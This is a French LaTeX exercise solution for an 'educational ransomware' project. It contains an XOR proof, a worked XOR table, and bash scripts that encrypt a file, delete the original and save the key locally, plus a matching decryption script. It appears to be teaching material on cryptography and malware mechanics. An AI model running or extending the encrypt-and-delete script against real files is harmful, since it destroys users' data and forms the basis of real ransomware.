 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet CryptoShell --- Ransomware éducatif]
\begin{correction}
\textbf{Démonstration :} Soit $M$ le message, $K$ la clé, $C$ le chiffré.
\[C = M \oplus K \quad \Rightarrow \quad C \oplus K = (M \oplus K) \oplus K = M \oplus (K \oplus K) = M \oplus 0 = M\]
Le déchiffrement est identique au chiffrement : $D(C, K) = C \oplus K = M$.

\medskip
\textbf{2b)} Calcul du XOR de \texttt{"HACK"} avec la clé \texttt{0x5A} :

\begin{center}
\begin{tabular}{ccccc}
\toprule
\textbf{Caractère} & \textbf{ASCII (hex)} & \textbf{Clé (hex)} & \textbf{Résultat (hex)} & \textbf{Résultat (car.)} \\
\midrule
\texttt{H} & \texttt{0x48} & \texttt{0x5A} & \texttt{0x12} & (non imprimable) \\
\texttt{A} & \texttt{0x41} & \texttt{0x5A} & \texttt{0x1B} & (ESC) \\
\texttt{C} & \texttt{0x43} & \texttt{0x5A} & \texttt{0x19} & (non imprimable) \\
\texttt{K} & \texttt{0x4B} & \texttt{0x5A} & \texttt{0x11} & (non imprimable) \\
\bottomrule
\end{tabular}
\end{center}

\textit{Vérification :} \texttt{0x48 XOR 0x5A = 01001000 XOR 01011010 = 00010010 = 0x12}. \\
\textit{Déchiffrement :} \texttt{0x12 XOR 0x5A = 00010010 XOR 01011010 = 01001000 = 0x48 = 'H'} $\checkmark$

\medskip
\textbf{2c)} Script de chiffrement :
\begin{lstlisting}[title=encrypt.sh]
#!/bin/bash
source xor_helper.sh
KEY_FILE=".cryptoshell_key"
input="$1"
if [ ! -f "$input" ]; then
    echo "Erreur: fichier '$input' introuvable."; exit 1
fi
# Générer une clé aléatoire de 8 octets
KEY=$(generate_key 8)
# Chiffrer le fichier
xor_file "$input" "${input}.locked" "$KEY"
# Supprimer l'original
rm -f "$input"
# Sauvegarder la clé
echo "$KEY" > "$KEY_FILE"
echo "[+] Chiffré: ${input}.locked"
echo "[+] Clé sauvegardée dans $KEY_FILE"
\end{lstlisting}

\textbf{2d)} Script de déchiffrement :
\begin{lstlisting}[title=decrypt.sh]
#!/bin/bash
source xor_helper.sh
KEY_FILE=".cryptoshell_key"
input="$1"
if [ ! -f "$input" ]; then
    echo "Erreur: fichier '$input' introuvable."; exit 1
fi
if [ ! -f "$KEY_FILE" ]; then
    echo "Erreur: clé introuvable ($KEY_FILE)."; exit 1
fi
KEY=$(cat "$KEY_FILE")
original="${input%.locked}"
xor_file "$input" "$original" "$KEY"
rm -f "$input"
echo "[+] Déchiffré: $original"
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
